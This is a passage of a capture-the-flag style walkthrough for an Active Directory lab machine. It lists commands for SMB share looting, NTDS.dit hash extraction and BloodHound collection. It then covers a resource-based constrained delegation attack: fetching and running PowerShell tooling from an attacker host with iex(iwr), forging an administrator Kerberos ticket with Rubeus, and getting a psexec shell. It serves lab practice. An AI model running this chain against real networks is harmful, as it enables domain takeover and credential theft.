






Enumerating with enum4linux:
```bash
enum4linux-ng 192.168.228.175
```

Now we get rpc info back:
 
Found credentials
Now using the credentials to check shares:
```
nxc smb 192.168.228.175 -u V.Ventz -p 'HotelCalifornia194!' --shares
```



```
smbclient \\\\192.168.228.175\\"Password Audit" -U resourced.local/V.Ventz%'HotelCalifornia194!'
```
```
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```

Now we find ntds.dit and registry hives of system and security:
Now cracking it:
```
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL
```

From rpc enumeration we know L.Livingstone is sysadmin:

So trying his hashes:


Now running sharphound:
```
.\SharpHound.exe -c All
```

Now we can check out transitive outbound relations with L.LIVINGSTONE:

This means we have GenericAll access on ResourceDC.

So doing the following steps:
```
iex (iwr -UseBasicParsing http://192.168.45.236/Powermad.ps1)

New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

iex (iwr -UseBasicParsing http://192.168.45.236/PowerView.ps1)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Convert password to rc4_hmac hash:
```
.\Rubeus.exe hash /password:Summer2018!
```

Now we can get the ticket for administrator:
```
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/RESOURCEDC.RESOURCED.LOCAL /ptt /nowrap
``` 

Now to get a shell:
```
psexec.py -k -no-pass resourced.local/administrator@ResourceDC.resourced.local -dc-ip 192.168.195.175
```
